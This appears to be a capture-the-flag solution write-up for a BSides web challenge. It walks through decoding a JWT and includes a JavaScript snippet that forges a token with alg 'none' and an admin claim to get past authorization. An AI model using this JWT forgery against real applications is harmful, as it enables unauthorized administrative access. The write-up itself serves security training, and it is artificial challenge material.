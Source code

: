 # Solution

You could do all of this via the API or just by using the frontend.

## Register/Login

Register an account and login.

## Attempt to get the flag

Try to get the flag, notice you get a 401 Unauthorized. Inspect the request
and grab the JWT from the Authorization header.

## Inspect JWT

Visit jwt.io and paste in the JWT.
Note the `bsides_is_admin` claim in the payload and the HS256 alg in the header.

## Craft and store the JWT

```js
const tok = localStorage.getItem('jwt')
  .split('.')
  .slice(0, 2)
  .map(v => JSON.parse(atob(v)))
tok[0].alg = "none"
tok[1].bsides_is_admin = true
localStorage.setItem('jwt', tok.map(v => btoa(JSON.stringify(v))).join(".") + ".")
```

## Get the flag

Hit "Get flag"!

# Solution Script

```bash
npm i
export SIGNED_SEALED_BASE_BACKEND_URL=http://localhost:48323
npm run solve
```
